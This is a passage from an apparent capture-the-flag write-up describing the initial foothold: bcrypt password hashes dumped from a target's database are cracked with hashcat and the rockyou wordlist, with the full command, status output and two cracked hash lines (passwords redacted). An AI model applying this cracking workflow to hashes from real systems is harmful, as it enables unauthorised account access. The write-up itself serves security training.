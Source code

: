 This gave me the first flag. It was hidden in the credit card field of a user.

## Initial foothold
With the data in the `user` and `system_user` tables, I had 13 password hashes that I could try to crack. I saved them to a file and launched hashcat to try to break them. After a while, it found the passwords for the system user server-admin and the user dgorman.

```bash
$ hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8565U CPU @ 1.80GHz, 1423/1487 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 13 digests; 13 unique digests, 13 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

INFO: Removed 2 hashes found in potfile.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: hash.txt
Time.Started.....: Wed Jul 28 06:49:14 2021 (1 hour, 37 mins)
Time.Estimated...: Tue May 31 17:24:47 2022 (307 days, 8 hours)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        6 H/s (5.84ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 2/13 (15.38%) Digests, 2/13 (15.38%) Salts
Progress.........: 41056/186477005 (0.02%)
Rejected.........: 0/41056 (0.00%)
Restore.Point....: 3152/14344385 (0.02%)
Restore.Sub.#1...: Salt:10 Amplifier:0-1 Iteration:2112-2128
Candidates.#1....: starbucks -> 2sexy4u


$ hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --show
$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a:REDACTED
$2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm:REDACTED
```